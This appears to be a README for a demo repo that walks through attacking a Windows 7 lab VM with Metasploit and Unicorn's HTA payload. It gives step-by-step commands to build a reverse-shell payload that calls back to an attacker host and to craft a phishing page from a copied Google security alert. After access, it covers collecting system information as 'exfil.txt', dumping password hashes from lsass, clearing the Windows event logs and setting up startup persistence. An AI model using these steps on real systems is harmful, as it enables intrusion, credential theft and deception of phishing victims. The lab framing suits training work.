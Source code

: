 # Unicorn Demo 
I have built this as a way to demo attacking a Windows 7 machine using metasploit and Unicorn's HTA attack.
Todd Murray pdxgeek57@gmail.com

## Environment Details

Kali from https://www.kali.org/downloads/  
Unicorn from https://github.com/trustedsec/unicorn  
Windows 7 ISO en_windows_7_professional_with_sp1_x64_dvd_u_676939.iso from https://the-eye.eu/public/MSDN/Windows%207/  
I used VMware 11.5 on MacOS Catalina 10.15.2 but you can use other HyperVisors.  
**I would NOT reccomend AWS/Azure as they may interpret these activities as malicous and kill your environment/account**  
Note that VMware versions lower than 11 have display issues with VM's on Catalina  

## Kali Setup

Download and Install the latest Kali Linux 64-Bit Image  
Run 'apt update' and then 'apt upgrade'. This will update Kali to the latest including metasploit which we will be using.  
Enable Postgresql and Apache2 to start at boot 'systemctl enable postgresql' and 'systemctl enable apache2'  
Start Postgresql and Apache2 "systemctl start postgresql' and 'systemctl start apache2'  
Start Metasploit "msfconsole' to initialize the db then 'exit' out  

## Windows 7 Setup
 
Install Windows in a trial, no key is needed unless you have a valid license  
During install I created an administrator account named "admin". IF you use somethign else you will need to make changes later on.  
If you are testing against an AV solution make sure its in "Detect Only" mode.  
Upgrade Internet Explorer to version 11 by downloading to your host system and then dragging the exe into your VM  
    Note that Windows 7 lacks the appropriate certificates to browse https sites without this update https://go.microsoft.com/fwlink/?LinkId=324629
Disable UAC. You can google this if your not sure how.  


## Setup Kali (All done in a Terminal window, if you are not root you may need to use sudo for some commands)

Switch to /opt 'cd /opt'  
Download Unicorn 'git clone https://github.com/trustedsec/unicorn.git'  
Run 'ifconfig' and note your IP  
Switch to /opt/unicorn 'cd /opt/unicorn'  
Review the README.md  
Run unicorn.py using your kali IP and hta method for revese_tcp payload 'python unicorn.py windows/meterpreter/reverse_tcp 172.16.105.131 4444 hta'  
This generates and hta_attack folder that you now copy to /var/www/html 'cp hta_attack /var/www/html'  
Switch to /var/www/html/hta_attack 'cd /var/www/html/hta_attack'  
Use your favorite editor to modify unicorn.rc 'vi unicorn.rc'  
Make sure AutoVerifySession, AutoSystemInfo, and AutoLoadStdapi are all set to true then save your changes    

This generates the payload and metasploit configuration into our apache instance.  
In my case the URL is http://172.16.105.131/hta_attack/  
What i did next was generated a security event warning to my Google email. I copied the email and changed the "Check Activity" URL to the URL above". I also went into my Google account to the Security settings page and saved this page. I then edited /var/www/html/hta_attack/index.html and inserted the google code below the existing code making a slight modification to tell users to run the Security Checker tool when prompted. It's not perfect but its good enough to demonstrate a phishing attempt. You could clean this all up to better replicate the FROM address on the email and ensure the page looks exactly like the Google page.


## Next is to setup what we will do once we click the email link and open Launncher.hta

Download this repo that contains my demo.rc script  
Go back to /opt 'cd /opt/' and clone this repo 'git clone https://github.com/wond696/unicorn-demo.git'  
Switch to /opt/unicorn-demo and review demo.rc 'cd /opt/unicorn-demo' and 'cat demo.rc'  
My script is based on being logged in as a user named "admin", you may have to make modifications if you use a different account. Also, ensure the quotes in the file remain quotes, some text editors try to change one to a reverse quote which breaks the process  
You can modify this however you want but I found that trying to run everything in the script dies after creating a shell and causes a keyboard buffering problem so I'm only do base collection in the script and uploading files.  

## Download JAWS 'cd /opt' and 'git clone https://github.com/411Hall/JAWS.git'  
Review the README.md 'cat /opt/JAWS/README.md'  
  
Start our metasploit listener 'msfconsole -r /var/www/html/hta_attack/unicorn.rc'  
Launch the attack by clicking the email link or browsing to http://172.16.105.131/hta_attack/ and run/open the file when prompted  
This will generate a reverse tcp onto port 4444, you should see the session start.  
Confirm the session 'sessions -i'  
Connect to the session number 'sessions -i 1'  
Run demo.rc at the meterpreter prompt 'run /opt/unicorn-demo/demo.rc'  
Run the following commands (You may have to hit enter after the powershell commands run)  
'shell'  
'powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted' Enables powershell script execution.  
'powershell ./jaws-enum.ps1 exfil.txt' On your Windows 7 VM watch the C:\Users\Admin folder, when its done exfil.txt should be a little over 100k in size.  
'exit'  
'download exfil.txt'  
'rm jaws-enum.ps1'  
'rm exfil.txt'  
'run post/windows/manage/migrate' This should migrate you to a new notepad.exe process.  
'ps' Review and find the pid for lsass.exe  
'migrate 592' Use the pid for lsass.exe If this works you are now under a SYSTEM process.  
'hashdump' This will give you hashes that you might be able to convert to plaintext in jacktheripper or https://crackstation.net/  
'clearev' Clears Windows Logs


If you have followed this precisly and made changes to IP and username where needed you should have gather a lot of system information, have a exfil.txt file in your current directory, Launcher.hta should now be persitent by being in the users Start Menu > Startup. Reboot your Windows 7 VM to test, it should reconnect after you login.
